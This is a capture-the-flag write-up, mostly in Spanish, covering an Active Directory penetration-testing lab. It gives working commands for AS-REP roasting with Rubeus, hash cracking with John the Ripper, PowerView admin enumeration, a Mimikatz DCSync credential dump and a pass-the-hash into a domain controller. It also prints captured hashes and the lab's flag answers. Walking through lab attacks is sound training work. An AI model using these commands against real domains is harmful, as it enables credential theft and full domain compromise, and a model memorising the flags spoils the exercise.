










# Active Directory Penetration Testing CTF 1

<p align="center"> 

</p>

## Task 1: Log in as a user with a weak password, i.e., "password1"

One of the domain users may have chosen a weak password such as password1. Locate the first flag by searching for other machines on the network and attempting to log in using the RDP utility.

Una vez iniciada la máquina nos encontramos con el siguiente escritorio.

<p align="center"> 


</p>

Si le damos a **Remote Desktop** aparecerá guardado el nombre del dominio y del usuario y como la contraseña ya nos lo comenta **password1** logramos iniciar sesión, y asi obtener la flag1.

answer: **612b8a8ec50ebc7282760d8b634a2296**

## Task 2: Identify accounts with "Do not require preauthentication" enabled

Some accounts may be configured with the "Do not require preauthentication" option, making them vulnerable. Locate the second flag by identifying these accounts, cracking their hashes to retrieve plaintext passwords, and using RDP to log in.

Podemos realizar el siguiente comando sin la necesidad de traernos la herramienta **powerview.ps1**

```
Get-ADUser -Filter 'DoesNotRequirePreAuth -eq $True' -Properties DoesNotRequirePreAuth
```

<p align="center"> 

</p>

Lo más importante es la línea que dice **`DoesNotRequirePreAuth : True`**. Esto confirma que el usuario **johnny** es vulnerable a **AS-REP Roasting**.

- **DoesNotRequirePreAuth : True**: Es la vulnerabilidad. Significa que el servidor de Kerberos te dará un ticket cifrado de este usuario **sin pedirte ninguna contraseña primero**. Solo tienes que pedirlo amablemente (con Rubeus o GetNPUsers) y el dominio te enviará el hash para que lo intentes romper en tu casa.
- **SamAccountName : johnny**: Es el nombre de inicio de sesión corto. Este es el nombre que usarás en el comando de Rubeus: `/user:johnny`.
- **UserPrincipalName : johnny@research.security.local**: Es el formato de correo electrónico para loguearse. Si el SamAccountName no funciona, este es el identificador completo en el dominio.

Luego la idea siguiente sería traernos la herramienta **Rubeus.exe**

En la maquina **research\student** nos situamos en la carpeta **tools** y abrimos un http.server

```
python -m http.server 8080
```

En la máquina donde hizimos RDP nos traemos esa herramienta 

```
Invoke-WebRequest -Uri "http://10.0.5.101:8080/Rubeus.exe" -Outfile Rubeus.exe
```

<p align="center"> 

</p>

```
.\Rubeus.exe asreproast /user:johnny /outfile:johnhash.txt
```

Obtenemos el hash

>`$krb5asrep$johnny@research.security.local:628BCD20F69DBD43D95626F464A813CD$3E1E26A32C4F575997412D5F6AED97F3647F1BE789345
B06F99FB02CDA6AC93B23DD355964DA7F37BDD13CEE4E88D8E4CD728382FADBC5169B624475A265FEC92BC981B7372B3817435EB3BA07204645AF57270E608C4EA43D6180E95FCB2BE85C5DD8F2FBE5231B974254AD43400A0E1466FFADA85B0648A294C5910A201343D77E196AE3EFE6FFFAF9DDAD51AFD194EAB65CD91B4D1CA1C8ED134AA24230FFE7D410565A0A1578FD9A225F553C3F4A22E747F13F8CECE5FFD30C9E971298EF7373DA17D357DD23F9F2DBB062C3A8B888DCCD79C4ECACD4E5BAF21C45DF3C2F77BF3EC653D62EBA0EBDC06CDF1F29582722CD13008DF160EA62C56730334263C26`

Luego nos traemos la herramienta johntheripper y un diccionario

```
Invoke-WebRequest -Uri "http://10.0.5.101:8080/johnTheRipper.zip" -Outfile johnTheRipper.zip
Invoke-WebRequest -Uri "http://10.0.5.101:8080/10k-worst-pass.txt" -Outfile 10k-worst-pass.txt
.\johnTheRipper\john-1.9.0-jumbo-1-win64\run\john.exe .\johnhash.txt --format=krb5asrep -wordlist=.\10k-wor
st-pass.txt
```

Y obtenemos la contraseña del usuario johnny

<p align="center"> 

</p>

Volviendo a la maquina del principio la **research\student** clikamos en la herramienta del escritorio **Remote Desktop Connection** y escribimos las nuevas credenciales. 

<p align="center"> 

</p>

Una vez logueado, en el escritorio obtenemos la flag2.

answer: **25c044c699f4eb21746427ae0f6d74f9**

## Task 3: Enumerate domain and local admin privileges and establish a remote session

Certain users or machines have domain admin or local administrator privileges. Identify these users and verify their administrative access. Obtain a PSSession on a vulnerable machine to retrieve the third flag.

En esta actividad nos tendremos que traer la herramienta PowerView al sistema, como lo hemos explicado como se trae, me ahorrare explicarlo de nuevo.

```
powershell -ep bypass
. .\mimi.ps1
```

```
Get-DomainGroupMember -Identity "Domain Admins"
```

<p align="center"> 

</p>

```
Get-DomainComputer -Identity SECLOGS | Select-Object Name, DNSHostName
```

<p align="center"> 

</p>

Realizando estos comandos podemos sacar la siguiente conclusión y es que en el grupo **Domains Admins** aparte del usuario Administrator hay un miembro más llamado **SECLOGS** cuyo dns es **seclogs.research.SECURITY.local** A continuación realizaremos el siguiente comando a los tres usuarios que tenemos disponible: **student**, **bobby** y **johnny**. El usuario que nos de **true** significa que dicho usuario pertenece al grupo admi del dominio SECLOGS

```
Test-AdminAccess -ComputerName SECLOGS
Enter-PSSession seclogs.research.SECURITY.local
```

<p align="center"> 

</p>

Una vez dentro obtenemos la flag3

answer: **69d92fbe2fc42f9ebbac83faf5b37202**

## Task 4: Extract and use the NTLM hash of a vulnerable machine account to gain access to the domain controller

Locate the fourth flag by extracting the NTLM hash from a vulnerable machine and leveraging a Pass-the-Hash attack to gain access to the Domain Controller.

Iniciamos sesión nuevamente en el dominio **seclogs.research.SECURITY.local**, nos traemos a esta maquina la herramienta mimikatz para obtener el hash del usuario admin

```
Invoke-WebRequest -Uri "http://10.0.5.101:8080/Invoke-Mimikatz.ps1" -Out file mimiks.ps1
```

```
. .\mimiks.ps1
```

```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::dcsync /domain:research.security.local /user:administrator@research.security.local"'
```

<p align="center"> 

</p>

Credenciales --> **Administrator**:**38a08b8218669328bf7b82bdff3b81d9**

Antes de nada usaremos este comando para saber si hay dominio mas que conecte con **research.security.local**

```
nslookup -type=srv _ldap._tcp.dc._msdcs.research.security.local
```

<p align="center"> 

</p>

Nombre del nuevo dominio: **prod.research.security.local**

Una vez obtenido el hash del usuario **Administrator** usaremos el siguiente comando pero en una powershell con permiso Administrator

```
cd /tools
. .\Invoke-Mimikatz.ps1
```

Una vez activado la herramienta mimikatz en la nueva powershell ejecutamos el siguiente comando, nos abrirá la powershell

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:research.security.local /ntlm:38a08b8218669328bf7b82bdff3b81d9 /run:powershell.exe"'
```

En esta nueva sesión, somos el usuario de máximo privilegio y usaremos el nuevo dominio que hemos conseguido anteriormente para acceder dentro, pero antes podemos comprobamos si podemos acceder.

```
Test-AdminAccess -ComputerName PROD
```

<p align="center"> 

</p>

```
Enter-PSSession prod.research.SECURITY.local
```

En la raíz del sistema obtenemos la **flag4.txt** 

answer: **df62bb8af9001d0ff0caaa26d1f44856**